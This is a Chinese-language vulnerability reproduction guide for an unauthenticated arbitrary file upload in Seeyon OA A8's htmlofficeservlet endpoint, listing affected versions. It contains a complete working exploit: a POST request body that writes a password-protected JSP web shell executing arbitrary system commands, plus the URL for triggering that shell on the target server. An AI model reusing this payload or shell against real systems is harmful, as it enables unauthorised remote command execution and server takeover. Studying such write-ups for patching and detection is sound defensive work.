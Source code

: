 # 致远OA A8 htmlofficeservlet 任意文件上传漏洞

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## 网络测绘

<a-checkbox checked>title="致远A8-V5协同管理软件 V6.1sp1"</a-checkbox></br>

## 影响版本

<a-checkbox checked>致远A8-V5协同管理软件V6.1sp1</a-checkbox></br>

<a-checkbox checked>致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3</a-checkbox></br>

<a-checkbox checked>致远A8+协同管理软件V7.1</a-checkbox></br>

## 漏洞复现

访问目标站点

```
/seeyon/htmlofficeservlet
```

出现如下图响应，则可能含有漏洞

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-1.png)



使用POST请求发出如下请求包

```plain
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("
<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-2.png)



出现如图响应则为上传成功,访问 

```
/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-3.png)
